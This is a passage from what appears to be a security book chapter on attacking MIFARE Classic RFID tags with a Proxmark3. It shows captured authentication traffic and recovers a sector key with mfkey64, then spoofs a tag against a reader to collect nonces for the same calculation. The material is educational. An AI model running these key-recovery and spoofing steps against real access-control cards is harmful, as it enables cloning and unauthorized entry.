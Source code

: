 ```    The output will also decode the identified operations. The exclamation points near the hex bytes indicate that a bit error occurred during the capture.    ### Extracting a Sector’s Key from the Captured Traffic    Eavesdropping on RFID traffic can reveal sensitive information, particularly when the tags use weak authentication controls or unencrypted communication channels. Because the MIFARE Classic tags use a weak authentication protocol, you can extract a sector’s private key by capturing a single successful authentication between the RFID tag and the RFID reader.    According to the specification, MIFARE Classic tags perform a three-pass authentication control with the RFID reader for each requested sector. First, the RFID tag selects a parameter called `nt` and sends it to the RFID reader. The RFID reader performs a cryptographic operation using the private key and received parameter. It generates an answer, called `ar`. Next, it selects a parameter called `nr` and sends it to the RFID tag along with `ar`. Then the tag performs a similar cryptographic operation with the parameters and the private key, generating an answer, called `at`, that it sends back to the RFID tag reader. Because the cryptographic operations that the reader and the tag perform are weak, knowing these parameters allows you to calculate the private key!    Let’s examine the eavesdropping communications captured in the previous section to extract these exchanged parameters:    ``` proxmark3> **hf list 14a** Start = Start of Start Bit, End = End of last modulation. Src = Source of Transfer           iso14443a - All times are in carrier periods (1/13.56Mhz)           iClass    - Timings are not as accurate               Start |End | Src | Data (! denotes parity error, ' denotes short bytes)| CRC | Annotation |      ------------|------------|-----|--------------------------------------------------------------       0 |992 | Rdr | 52' | | WUPA      2228 |   4596 | Tag | 04  00  | |       7040 |   9504 | Rdr | 93  20  | | ANTICOLL      10676 |  16564 | Tag | **80  55  4b  6c**  f2  | | 1    19200 |  29728 | Rdr | 93  70  80  55  4b  6c  f2  30  df  |  ok | SELECT_UID      30900 |  34420 | Tag | 08  b6  dd  | |       36224 |  40928 | Rdr | 60  00  f5  7b  |  ok | AUTH-A(0)      42548 |  47220 | Tag | **63  17  ec  f0**  | | 2    56832 |  66208 | Rdr | **5f! 3e! fb  d2****94! 0e! 94  6b**  | !crc| ? 3    67380 |  72116 | Tag | **0e  2b  b8  3f!** | | 4 ```    We can identify the card’s UID 1 as the value that comes before the `SELECT_UID` command. The `nt`2, `nr`, `ar`3, and `at`4 parameters appear just after the `AUTH-A(0)` command, always in this order.    Proxmark3’s source code includes a tool named `mfkey64` that can perform the cryptographic calculation for us. Pass it the card’s UID, followed by the `nt`, `nr`, `ar`, and `at` parameters:    ``` $ **./tools/mfkey/mfkey64 80554b6c 6317ecf0 5f3efbd2 940e946b 0e2bb83f** MIFARE Classic key recovery - based on 64 bits of keystream Recover key from only one complete authentication! Recovering key for:    uid: 80554b6c     nt: 6317ecf0   {nr}: 5f3efbd2   {ar}: 940e946b   {at}: 0e2bb83f LFSR successors of the tag challenge:   nt' : bb2a17bc   nt'': 70010929 Time spent in lfsr_recovery64(): 0.09 seconds Keystream used to generate {ar} and {at}:    ks2: 2f2483d7    ks3: 7e2ab116 **Found Key: [****FFFFFFFFFFFF****]**1 ```    If the parameters are correct, the tool calculates the private key 1 for the sector.    ### The Legitimate RFID Reader Attack    In this section, we’ll show you how to spoof a legitimate RFID tag and perform a brute-force attack against the RFID reader’s authentication control. This attack is useful in cases where you have prolonged access to the legitimate reader and limited access to the victim’s tag.    As you might have noticed, the legitimate tag will send the`at` response to the legitimate reader only at the end of the three-pass authentication. Adversaries who have physical access to the reader could spoof the RFID tag, generate their own `nt`*,* and receive the `nr` and `ar` from the legitimate reader. Although the authentication session can’t successfully terminate, because the adversaries don’t know the sector’s key, they might be able to perform a brute-force attack for the rest of the parameters and calculate the key.    To perform the legitimate reader attack, use the tag simulation command `hf mf sim`:    ``` proxmark3> **hf mf sim *1 u 19349245 x i** mf sim cardsize: 1K, uid: 19 34 92 45 , numreads:0, flags:19 (0x13)            Press pm3-button to abort simulation     #db# Auth attempt {nr}{ar}: c67f5ca8 68529499           Collected two pairs of AR/NR which can be used to extract keys from reader: … ```    The *** character selects all the tag blocks. The number that follows specifies the memory size (in this case, `1` for MIFARE Classic 1KB). The `u` parameter lists the impersonated RFID tag’s UID, and the `x` parameter enables the attack. The `i`parameter allows the user to have an interactive output.    The command’s output will contain the `nr` and `ar` values, which we can use to perform the key calculation in the same way as we did in the previous section. Note that even after calculating the sector’s key, we’d have to gain access to the legitimate tag to read its memory.    ### Automating RFID Attacks Using the Proxmark3 Scripting Engine    The Proxmark3 software comes with a preloaded list of automation scripts that you can use to perform simple tasks. To retrieve the full list, use the `script list` command:    ``` $ proxmark3> **script list** brutesim.lua     A script file           tnp3dump.lua     A script file           … dumptoemul.lua   A script file           mfkeys.lua       A script file           test_t55x7_fsk.lua A script file ```    Next, use the `script